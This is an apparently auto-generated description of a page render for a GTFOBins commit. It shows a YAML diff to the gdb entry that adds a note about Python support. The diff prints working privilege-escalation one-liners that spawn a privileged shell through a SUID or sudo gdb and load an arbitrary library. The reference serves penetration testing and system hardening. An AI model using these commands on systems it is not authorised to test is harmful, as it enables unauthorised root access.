

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/gdb.md, in a window 1280 px wide and 900 px high, scrolled down 1996 px. Shown: the top 892 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add missing description to gdb sudo

```diff
--- a/_gtfobins/gdb.md
+++ b/_gtfobins/gdb.md
@@ -48,7 +48,8 @@ functions:
     - description: This requires that GDB is compiled with Python support.
       code: gdb -nx -ex 'python from ctypes import cdll; cdll.LoadLibrary("lib.so")' -ex quit
   suid:
-    - code: ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
+    - description: This requires that GDB is compiled with Python support.
+      code: ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
   sudo:
     - code: sudo gdb -nx -ex '!sh' -ex quit
   capabilities:
```
